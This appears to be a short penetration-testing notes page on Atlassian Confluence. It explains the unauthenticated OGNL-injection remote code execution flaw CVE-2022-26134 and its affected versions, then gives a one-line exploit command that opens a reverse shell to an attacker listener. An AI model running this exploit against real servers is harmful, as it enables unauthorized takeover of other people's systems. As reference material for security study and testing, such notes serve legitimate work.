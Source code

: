 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Atlassian Confluence

Atlassian Confluence is a widely used web-based collaboration platform that allows teams to create, share, and manage documentation and internal knowledge bases. It supports on-premise installations through Confluence Server and scalable deployments with Confluence Data Center.

## Unauthenticated RCE

Confluence Server and Data Center versions from `1.3.0` up to (but not including) `7.4.17`, as well as specific version ranges between `7.13.0` and `7.18.1`  are vulnerable to an unauthenticated RCE flaw ([CVE-2022-26134](https://nvd.nist.gov/vuln/detail/cve-2022-26134)). When a vulnerable Confluence endpoint receives a maliciously crafted HTTP request containing a specially constructed Object-Graph Navigation Language (OGNL) payload, the server evaluates it as code. This grants the attacker full control over the underlying OS, allowing arbitrary command execution with the privileges of the Confluence service. A working [PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) is available.

{% code overflow="wrap" %}
```bash
python3 through_the_wire.py --rhost <target-IP> --rport 8090 --lhost 192.168.45.170 --lport 80 --reverse-shell --protocol http://
```
{% endcode %}

